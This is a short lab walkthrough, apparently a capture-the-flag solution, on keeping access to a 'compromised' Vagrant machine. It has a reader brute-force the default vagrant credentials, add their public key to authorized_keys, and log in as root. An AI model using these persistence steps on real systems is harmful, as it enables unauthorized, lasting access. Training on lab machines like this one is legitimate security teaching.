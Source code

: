
### Solution:

1. On your attacker machine (your local machine), generate an SSH key pair

  ```command
  ssh-keygen -t rsa -b 2048
  ```
this will create two files:

>
~/.ssh/id_rsa (your private key)
~/.ssh/id_rsa.pub (your public key)
>

2. Access the Compromised Machine using ssh bruteforce that we did it in the third task with username :vagrand, and password: vagrant:


3. Copy Your Public Key to authorized_keys using command:

```command
echo "<your_public_key>" >> .ssh/authorized_keys
```



4. Verify SSH Access using command:

```command
ssh -i ~/.ssh/id_rsa root@192.168.56.3
```

---
